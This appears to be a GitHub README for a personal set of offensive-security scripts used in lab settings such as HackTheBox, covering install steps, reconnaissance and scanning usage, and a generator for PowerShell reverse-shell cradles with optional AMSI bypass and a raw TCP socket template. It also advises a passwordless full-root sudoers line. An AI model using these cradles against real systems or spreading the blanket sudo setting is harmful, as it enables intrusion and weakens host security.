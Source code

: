 # scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-rich python3-urllib3 python3-watchdog

# Clone repo and cd
sudo git clone https://github.com/Mojo8898/scripts.git /opt/scripts
cd /opt/scripts

# Set standalone scripts as to be executable
sudo chmod +x recon_setup/recon_setup.py cradle_gen.py scan_machine.py scan_targets.py

# Create symbolic links to add standalone scripts to $PATH (pipx compatibility coming soon?)
ln -s /opt/scripts/recon_setup/recon_setup.py /usr/local/bin/recon_setup.py
ln -s /opt/scripts/scan_machine.py /usr/local/bin/scan_machine.py
ln -s /opt/scripts/scan_targets.py /usr/local/bin/scan_targets.py
ln -s /opt/scripts/cradle_gen.py /usr/local/bin/cradle_gen.py
```

Some automated scripts including the built-in nmap wrapper require sudo to run properly. Either execute scripts as root or add the following line to the bottom of your `/etc/sudoers` file using the command `sudo visudo` to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
recon_setup.py administrator -i 10.10.10.10 -v ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
recon_setup.py administrator -i 10.10.10.10 -v ~/htb/competitive_Mojo098.ovpn -a -u olivia -p 'ichliebedich'

# Launch inside of exegol and utilize the HackTheBox CLI
recon_setup.py administrator -x --spawn administrator -a -u olivia -p 'ichliebedich'
```

### scan_machine.py

```bash
scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
